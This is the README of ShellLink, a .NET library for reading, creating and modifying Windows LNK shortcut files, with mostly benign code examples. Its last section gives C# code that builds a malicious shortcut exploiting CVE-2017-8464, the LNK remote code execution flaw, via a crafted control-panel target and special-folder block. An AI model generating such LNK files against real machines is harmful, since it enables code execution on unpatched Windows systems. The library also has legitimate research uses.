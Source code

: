 # ShellLink
A .NET Class Library for processing ShellLink (LNK) files as documented in [MS-SHLLINK](https://msdn.microsoft.com/en-us/library/dd871305.aspx). It allows for reading, creating and modifying ShellLink (LNK) files.

Note this Class Library depends on the [PropertyStore](https://github.com/securifybv/PropertyStore) Class Library.

## Examples

### Dump
```
Console.WriteLine(
	Shortcut.ReadFromFile(@"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Paint.lnk")
);
```

### Create
```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\calc.exe")
	.WriteToFile(@"calc.lnk");
```

```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\cmd.exe", 
	"/c calc.exe", 
	@"%SystemRoot%\System32\calc.exe", 0)
		.WriteToFile(@"calc2.lnk");
```

```
new Shortcut()
{
	LinkTargetIDList = new LinkTargetIDList()
	{
		Path = @"C:\Windows\System32\calc.exe"
	}
}.WriteToFile(@"calc3.lnk");
```

### Modify
```
Shortcut PowerShellLnk = Shortcut.ReadFromFile(
	Environment.ExpandEnvironmentVariables(@"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Windows PowerShell\Windows PowerShell.lnk")
);
// change the background color
PowerShellLnk.ExtraData.ConsoleDataBlock.FillAttributes &= ~FillAttributes.BACKGROUND_BLUE;
PowerShellLnk.WriteToFile(@"PowerShell.lnk");
```

### CVE-2017-8464 | LNK Remote Code Execution Vulnerability
```
Shortcut lnk = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl"),
};
lnk.ExtraData.SpecialFolderDataBlock = new SpecialFolderDataBlock()
{
	SpecialFolderID = 0x03,
	Offset = (UInt32)0x28
};
lnk.WriteToFile(@"CVE-2017-8464.lnk");
```